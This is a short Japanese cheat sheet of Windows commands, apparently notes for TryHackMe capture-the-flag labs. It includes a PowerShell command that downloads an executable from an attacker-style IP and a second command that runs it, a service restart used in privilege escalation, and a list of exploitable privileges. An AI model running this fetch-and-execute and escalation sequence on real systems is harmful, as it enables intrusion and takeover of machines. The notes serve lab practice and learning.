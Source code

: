 # Windows

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

`bitsadmin /transfer download https://www.google.co.jp/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png %CD%\logo.png`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"`

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
